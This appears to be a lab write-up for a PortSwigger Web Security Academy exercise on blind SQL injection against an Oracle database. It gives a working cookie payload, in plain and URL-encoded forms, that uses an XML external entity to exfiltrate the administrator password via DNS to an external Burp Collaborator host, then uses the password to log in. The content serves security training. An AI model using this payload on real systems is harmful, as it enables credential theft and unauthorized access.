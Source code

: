 
# Blind SQL injection with out-of-band data exfiltration

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user


___
#blind_sql #oracle_database 

step 1

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

Burp Collaborator =>  `8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com`

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/"> %remote;]>'),'/l') FROM dual--`

URL Encoded =>
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual`

```sql
TrackingId=bHFIOYPhIvop01kY'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![screnshot](./images/lab17_0.png)

step 2

go to burp collaborator
click on Poll now you will see DNS received
`g58q92v0lqm2u03jlayf` is attach with burp collaborator URL which admin password

![screnshot](./images/lab17_1.png)

To solve the lab
login `administrator` as username and password `g58q92v0lqm2u03jlayf`

![screnshot](./images/lab17_2.png)